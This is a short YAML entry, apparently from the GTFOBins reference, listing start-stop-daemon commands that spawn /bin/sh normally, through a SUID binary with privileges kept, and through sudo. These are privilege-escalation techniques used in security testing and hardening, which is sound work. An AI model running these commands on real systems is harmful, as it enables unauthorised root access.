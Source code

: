 ```yaml
---
functions:
  shell:
    - code: start-stop-daemon -n $RANDOM -S -x /bin/sh
  suid:
    - code: ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
  sudo:
    - code: sudo start-stop-daemon -n $RANDOM -S -x /bin/sh
---
```

